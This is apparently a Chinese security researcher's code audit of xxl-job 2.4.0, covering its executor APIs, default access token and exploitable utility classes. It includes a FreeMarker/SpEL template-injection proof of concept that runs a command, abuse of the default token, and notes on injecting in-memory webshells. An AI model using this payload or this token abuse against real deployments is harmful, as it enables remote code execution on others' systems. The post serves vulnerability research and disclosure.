xxljob-2.4.0 代码审计
0x01 一些需要的知识 XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。本次主要针对xxl-job的调度流程。

0x02 xxljob主要使用的api 客户端注册和执行结果上报（客户端发送给服务端）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 @Override public ReturnT<String> callback (List<HandleCallbackParam> callbackParamList) {return XxlJobRemotingUtil.postBody(addressUrl+"api/callback" , accessToken, timeout, callbackParamList, String.class);@Override public ReturnT<String> registry (RegistryParam registryParam) {return XxlJobRemotingUtil.postBody(addressUrl + "api/registry" , accessToken, timeout, registryParam, String.class);@Override public ReturnT<String> registryRemove (RegistryParam registryParam) {return XxlJobRemotingUtil.postBody(addressUrl + "api/registryRemove" , accessToken, timeout, registryParam, String.class);
1 /registry：注册客户端信息 启动线程定时注册自己的服务到调度器；
创建线程，30s轮询一次，上报注册信息。
2 /registryRemove：移出执行器请求 将自己从执行器列表移除；
程序退出时会调用一次，在Netty的finally代码块自动执行。
3 /callback：异步回调结果 执行器异步回调给调度器执行任务结果；
每次任务完成时上报。
4 对应的数据形式 （1）客户端注册
1 2 3 4 5 6 7 8 9 10 11 12 13 http:"registryGroup" : "EXECUTOR" "registryKey" : "xxl-job-executor-sample" "registryValue" : "http://172.30.0.67:9999/" "code" : 200 "msg" : null "content" : null
（2）客户端移除注册
1 2 3 4 5 6 7 8 9 10 11 12 13 http:"registryGroup" : "EXECUTOR" "registryKey" : "xxl-job-executor-sample" "registryValue" : "http://xxljob-axzo.cn" "code" : 200 "msg" : null "content" : null
（3）客户端执行任务结果上报
1 2 3 4 5 6 7 8 9 10 11 12 13 http:"logId" : 1238 "logDateTim" : 1667197980007 "handleCode" : 200 "code" : 200 "msg" : null "content" : null
（4）执行器下发任务：同步回调仅代表任务是否发送成功
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 http:"jobId" : 4 "executorHandler" : "demoJobHandler" "executorParams" : "" "executorBlockStrategy" : "SERIAL_EXECUTION" "executorTimeout" : 0 "logId" : 1238 "logDateTime" : 1667197980007 "glueType" : "BEAN" "glueSource" : "" "glueUpdatetime" : 1666683613000 "broadcastIndex" : 0 "broadcastTotal" : 1 "code" : 200 "msg" : null "content" : null
5 Token配置详解 1.配置了token后，client发送的每隔http请求头会带上XXL-JOB-ACCESS-TOKEN ：{xxl.job.accessToken} ；
2.该参数不会对请求参数加密；
3.如果配置不匹配，客户端请求报错：
1 2 3 4 5 {"code" : 500 "msg" : "The access token is wrong." "content" : null

默认为default_token
0x03 代码分析 本次主要针对注册器的代码进行审计。

客户端使用xxl-job-core
在这个com.xxl.job.core工具类里用一个可以利用的点。
com/xxl/job/core/util/JdkSerializeTool.java 反序列化

可控而且是public。
com/xxl/job/core/util/ScriptUtil.java 写文件，执行命令

com/xxl/job/core/util/FileUtil.java

等等。都是可以直接调用。
很容易可以想到利用方式就是写文件，或者代码执行，任意文件删除。

xxljob使用了freemarker模版进行渲染，渲染路径为classpath下的/templates/
freemarker版本是2.3.32，也就是说通过文件写入恶意的模版文件，就能造成代码执行。

全局拦截器的代码，

对应的实现类。

或者这个，然后判读用户

进行16进制处理。


然后判断用户是否存在，若果存在，在继续判断密码的md5值是否等于数据里对应的值。看来是无法绕过拦截器的。这样看来其实，token也是一个隐患，永不过期，嗅探到数据包，也是可以永久使用。
0x04 复现 poc
1 $ {"freemarker.template.utility.ObjectConstructor" ?new()("org.springframework.expression.spel.standard.SpelExpressionParser" ).parseExpression("T(java.lang.Runtime).getRuntime().exec(\"open -a calculator\")" ).getValue()}

执行后修改了登录页的模版。再次打开就能造成代码执行。

当然利用9999默认token也是可以的。


这里直接使用反射获取classloader去加载内存马，注意，这里可以使用jMG v1.0.7.beta3生成的马子，端口为8081，但是实战中，8081这个端口基本不存在，只有9999端口实战可利用，所以需要打netty的内存马。本质上攻击的是注册器（client），xxljob是注册中心（server）,也有情况，server，client在一台机器上。

这个马子实战鸡肋。
0x05 总结 没什么用，主要还是利用默认的token去更改一些配置。而且，本来就可以自定义代码，想怎么写就怎么写，所以用不用core里面的工具类也无上大雅。直接使用反射获取classloader去加载内存马就可以，或者直接执行shell脚本就行。这个修改模版很鸡肋，若果使用jar包部署，也无法去修改jar里面的classpath，鸡肋中的鸡肋，弃之可惜，鸡肋一下。
参考链接 https://zhuanlan.zhihu.com/p/587813289
https://github.com/pen4uin/java-memshell-generator-release
https://github.com/zema1/suo5

 z
z